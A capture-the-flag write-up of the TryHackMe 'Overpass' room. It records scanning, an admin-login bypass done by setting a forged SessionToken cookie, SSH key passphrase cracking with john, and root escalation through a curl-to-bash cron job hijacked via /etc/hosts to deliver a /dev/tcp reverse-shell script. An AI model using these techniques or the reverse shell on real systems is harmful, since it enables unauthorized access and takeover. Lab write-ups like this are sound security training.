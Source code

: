 ```yaml
---
title: Overpass-writeup-THM
date: 2024-01-04 10:00:00
categories: [room, easy]
tags: [linux, privesc, crontab]     # TAG names should always be lowercase
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/overpass">Overpass</a>"

The first thing that I am going to do is a nmap scna:

```bash
nmap 10.10.192.193      

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-01 09:30 EST
Nmap scan report for 10.10.192.193
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.19 seconds
```

From there we can see that the host is running ssh and a web page, let’s see what;s in the web page.

![Untitled](https://raw.githubusercontent.com/Blueaulo/Overpass-writeup-THM/main/f08d4045-89e3-45d5-9ed3-0f650f39cb59_Export-a6534518-0a1b-40b8-b980-4ff782785aa3/Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled.png)

Looking at the source code I have found this:

```bash
Overpass allows you to securely store different
                passwords for every service, protected using military grade
                <!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->
                cryptography to keep you safe.
```

The commented part can be a hint that the password are stored using ROT13.

After that I ran a directory discovery scan:

```bash
ffuf -u http://10.10.192.193/FUZZ -w /usr/share/wordlists/dirb/big.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.192.193/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3, Duration: 57ms]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 71ms]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 338 req/sec :: Duration: [0:00:36] :: Errors: 0 ::
```

Going into the admin page I got meeted with a login form.

This login form loads a script:

```bash
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

This script bascially allows you to create a token named SessionToken, and make a value different from “Incorrect credentials” and gives you access in the admin page

![Untitled](https://raw.githubusercontent.com/Blueaulo/Overpass-writeup-THM/main/f08d4045-89e3-45d5-9ed3-0f650f39cb59_Export-a6534518-0a1b-40b8-b980-4ff782785aa3/Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled%201.png)

We found out a ssh key, now I am going to try and access james account with it:

```bash
chmod 400 id_rsa                 
                                                                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa james@10.10.192.193
Enter passphrase for key 'id_rsa':
```

Seems like it wants a passphrase.

We can retrieve that with John:

```bash
ssh2john id_rsa > id.txt
                                                                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt id.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>          (id_rsa)     
1g 0:00:00:00 DONE (2024-01-01 09:58) 100.0g/s 1337Kp/s 1337Kc/s 1337KC/s pimentel..handball
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And it worked:

```bash
ssh -i id_rsa james@10.10.192.193                                                          

Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan  1 15:00:25 UTC 2024

  System load:  0.12               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.192.193
  Swap usage:   0%

47 packages can be updated.
0 updates are security updates.

Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ whoami
james
```

Once there I found this, in the .overpass file:

```bash
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

Which is James’s password

```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Looks like there is a crontab running which uses curl totake the buildscript.sh and run that.

From there I just edited the /etc/hosts file and I addes my IP, so now when it will try to retrieve the script, it will retrive it from me.

So I made this script inside a /downloads/src/ folder:

```bash
cat buildscript.sh 
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.18.20.116/5555 0>&1
```

So when I started the server it took my script and I got a reverse shell:

```bash
nc -lvnp 5555

listening on [any] 5555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.192.193] 39270
bash: cannot set terminal process group (2104): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
```